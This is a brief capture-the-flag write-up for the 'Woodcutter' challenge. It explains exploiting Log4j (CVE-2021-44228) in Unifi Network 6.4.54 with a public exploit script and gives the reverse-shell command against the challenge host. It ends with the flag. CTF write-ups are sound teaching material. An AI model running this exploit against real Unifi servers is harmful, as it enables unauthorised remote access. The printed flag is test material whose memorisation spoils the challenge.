

# Woodcutter
> Once upon a time in a quiet forest village, lived a woodcutter named Tom known for his exceptional axe skills. A stranger named Mr. Smith, a software engineer, approached Tom, seeking wood for his Java project, unknowingly sparking an unlikely adventure at the intersection of nature and technology.

## About the Challenge
We were given a website that uses `Unifi Network` version `6.4.54`



## How to Solve?
Because of the website is using older version of the Unifi network, I immediately searched on Google using the following keyword

```
Unifi 6.4.54 exploit
```


It appears that this version is vulnerable to the Log4j vulnerability (CVE-2021-44228). To exploit the website, I am using this [GitHub Repository](https://github.com/puzzlepeaches/Log4jUnifi) to perform a reverse shell by running this command

```
python3 exploit.py -u https://woodcutter.winja.org -i <IP> -p <PORT>
```

And then check our server and voilà! To obtain the flag we need to run `cat /flag.txt` command


```
flag{0c6ad466c5800fe77ec1435a38870548_Lo94J-0K3S-4-TH0N}
```